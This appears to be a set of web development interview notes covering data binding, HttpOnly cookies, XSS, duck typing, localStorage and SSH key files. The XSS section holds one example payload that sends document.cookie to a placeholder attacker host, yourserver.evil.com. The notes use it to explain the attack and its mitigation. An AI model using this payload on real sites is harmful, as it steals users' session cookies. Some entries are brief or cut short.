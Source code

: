 ### What are two-way data binding and one-way data flow, and how are they different?

Two way data binding means that UI fields are bound to model data dynamically such that when a UI field changes, the model data changes with it and vice-versa.

One way data flow means that the model is the single source of truth

### HttpOnly cookie

Cookies are usually created by a server, passed to the browser and then passed back. Now it is possible to create and manipulate Cookies using JavaScript which can be helpful but can also be a security hole. So an HttpOnly Cookie is only accessible by the server, or in other words it is not accessible from client side JavaScript which protects your site from some forms of XSS attacks. So the Browser will store and return an HttpOnly Cookie but it will not alter it or allow you to create it on the client; an HttpOnly Cookie must be created on the server.

### What is XSS attack

Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy.

Steal information

```
document.write('<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />')
```

Some browsers have implemented attempts at mitigating XSS and CSRF holes in websites, but these are heuristics looking for typical patterns of attacks. They are in no way complete.

[OWASP XSS Prevention Cheat Sheet Tasks](http://www.insecurelabs.org/task/)

### How do you check if an object is an array or not

Array.isArray(arrayList);

### What is duck typing

In computer programming, duck typing is an application of the duck test in type safety. It requires that type checking be deferred to runtime, and is implemented by means of dynamic typing or reflection.

### Why not LocalStorage

- it's blocking, that is, it is synchronous

### known_hosts & authorized_keys

The known_hosts file lets the client authenticate the server, to check that it isn't connecting to an impersonator. The authorized_keys file lets the server authenticate the user.
